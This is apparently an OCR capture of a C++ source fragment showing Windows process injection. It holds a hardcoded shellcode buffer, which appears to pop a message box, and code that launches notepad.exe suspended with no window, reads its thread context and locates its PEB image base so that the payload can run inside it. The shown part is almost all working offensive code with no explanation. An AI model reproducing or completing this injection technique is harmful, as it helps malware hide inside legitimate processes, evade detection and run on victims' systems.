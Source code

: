 ```cpp 
    CloseHandle(sectionHandle);
    return remoteSectionAddress;
}


int main(void)
{
    unsigned char buf[] = 
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x6b\x74\x58\x20\x68\x74\x20\x72\x65\x68\x45\x3d\x67\x65"
        "\x68\x54\x49\x54\x4c\x68\x72\x65\x6b\x74\x68\x67\x65\x74\x20"
        "\x31\xc9\x88\x4c\x24\x16\x89\xe1\x31\xd2\x52\x53\x51\x52\xff"
        "\xd0\x31\xc0\x50\xff\x55\x08";


    HOST* hostProcess = new HOST();
    LPSTARTUPINFOA si = new STARTUPINFOA();
    LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
    PROCESS_BASIC_INFORMATION* pbi = new PROCESS_BASIC_INFORMATION();
    DWORD returnLength = 0;
    CONTEXT ctx;

    SHELLCODE* s = new SHELLCODE();
    s->shellcode = buf;
    s->shellcodeSize = sizeof(buf);
        
    if (CreateProcessA(
        "C:\\Windows\\System32\\notepad.exe", 
        (LPSTR)"C:\\Windows\\System32\\notepad.exe",
        NULL, NULL, TRUE, 
        CREATE_SUSPENDED | CREATE_NO_WINDOW, 
        NULL, NULL, si, pi) == FALSE)
    {
        std::cout << "[x]Failed to execute notepad.exe\n";
        return FALSE;
    }
    std::cout << "[!]Executed notepad.exe\n";

    hostProcess->processHandle = pi->hProcess;
    ctx.ContextFlags = CONTEXT_FULL;
    fNtGetContextThread(pi->hThread, &ctx);

    NtQueryInformationProcess(
        hostProcess->processHandle, 
        ProcessBasicInformation, 
        pbi,
        sizeof(PROCESS_BASIC_INFORMATION), 
        &returnLength);
    DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 0x8;
```